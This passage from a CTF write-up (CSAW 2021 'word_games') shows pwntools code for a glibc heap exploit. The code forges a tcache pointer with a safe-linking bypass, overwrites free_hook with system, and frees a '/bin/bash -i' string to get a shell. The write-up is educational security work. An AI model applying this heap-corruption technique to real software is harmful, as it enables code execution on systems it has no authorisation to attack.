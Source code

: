 Now we want to get the 0x40 chunk (a subset of which is our fake chunk) so we can corrupt our fake chunk with a 'safely linked' pointer to free_hook.

```python
    # Now free the rest of the chunks, including the 0x40 chunk that contains our fake one
    scrap_my_list(r)

    # Now we get our FAKECHNK chunk back (this CONTAINS the forged chunk, which
    # is now in the tcache)
    #
    # We will overwrite the fwd pointer in tcache with a pointer to free_hook
    # .. but we have to do the glibc 2.32 'safe linking' thing:
    safe_ptr = (free_hook-0x10) ^ (fakechunk >> 12)
    suggest(r, 0x40, b"FAKECHNK" + p64(0) + p64(safe_ptr)) 
```

For more on safe linking: https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation


```python
    # We'll free this later to trigger system(/bin/bash) ... ;)
    suggest(r, 0x60, b"/bin/bash -i\0")
    suggest(r, 0x18, p64(0xdeadbeef))

    # This time malloc gave us our fake chunk
    suggest(r, 0x18, p64(0xdeadbeef))

    # malloc returns our pointer to free_hook, we overwrite with system
    suggest(r, 0x18, p64(0xdeadbeef)*2+p64(system))
```

And we are done:

```python
r.sendline("2") # scrap list, /bin/bash gets free'd
r.interactive()
```

See [word_games.py](https://github.com/cscosu/ctf-writeups/blob/master/2021/csaw_quals/word_games/word_games.py)
